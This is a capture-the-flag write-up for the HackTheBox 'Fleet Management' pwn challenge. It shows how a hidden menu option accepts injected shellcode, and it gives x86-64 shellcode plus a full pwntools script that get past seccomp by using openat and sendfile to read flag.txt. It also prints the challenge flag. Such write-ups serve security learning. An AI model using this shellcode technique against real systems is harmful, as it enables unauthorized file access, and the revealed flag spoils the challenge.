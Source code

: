 # Fleet Management
> Write-up author: jon-brandy
## DESCRIPTION:
Reading through an Underground Intergalactic hacking forum Bonnie stumbles upon a post talking about a backdoor in the Gold Fang’s Spaceship Fleet Management System. 
There is a note about a twist added by the author to prevent anyone from using the backdoor. 
Will Bonnie achieve to gain access to Gold Fang’s internal network and retrieve precious documents?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/01e498a8-ad99-4299-8d88-13f78a1cc1d6)


> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/2de5a421-f79f-4f92-ae29-8249a21a1476)


2. After decompiled the binary, it looks like there's a hidden menu which calls the **beta_feature()** function.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/1ead0cbe-4f84-4235-ad05-5931745906c3)


3. There's a chance we can do shellcode injection even though the NX are disabled.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c624695a-1467-4a47-88fd-cc9bf0dcaa64)


4. But the problem is, we have `seccomp()`. (`skid_check()`)

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/8e136aaf-b7b8-4b49-9251-7b0c2395b8c6)


5. To be precise what are the seccomp applied, we can run:

```
sudo seccomp-tools dump ./fleet_management
```

6. Then open menu number 9 and input random strings.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f852dc59-3304-43c6-9618-4abd9788615b)


7. The interesting part here, the binary using **openat()** which is more secure than **open()**, it does took me a while to solved this.
8. Since there are seccomp, hence the objective here is to cat the flag rather spawn the shell.
9. To do that we can utilize `sendfile` & `openat`.
10. Here are the asm code we want to inject:

```asm
xor rdx, rdx ; set rdx to 0
push rdx ; push it to the stack
mov rax, 0x7478742e67616c66 ; stores flag.txt
push rax ; push it to the stack
mov rsi, rsp ; move what's on the stack to rsi(set filename address to stack address)
mov rdi, -100 ; set rdi as file descriptor (fd) pointing to AT_FDCWD
mov rax, 257 ; do the sys_openat()
syscall

xor rdi, rdi ; set rdi to 0
xor rdx, rdx ; set rdx to 0
mov rsi, rax ; move rax, rsi (set file descriptor [fd] to openat() result
mov r10, 0x100 ; set length to read the flag.txt
mov rax, 40 ; do the sys_sendfile()
syscall
```

11. Here's the full script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './fleet_management'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

sh.sendlineafter(b'do? ', b'9')

shell = """
xor rdx, rdx
push rdx
mov rax, 0x7478742e67616c66
push rax
mov rsi, rsp
mov rdi, -100
mov rax, 257
syscall

xor rdi, rdi
xor rdx, rdx
mov rsi, rax
mov r10, 0x100
mov rax, 40
syscall
"""
shellcode = asm(shell)
sh.sendline(shellcode)

sh.interactive()
```

> RUN SCRIPT REMOTELY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/24937d66-919f-45fc-aeaa-c7c8b9928d23)


12. Got the flag!

## FLAG
```
HTB{sh3llc0d3_45_4_b4ckd00r}
```

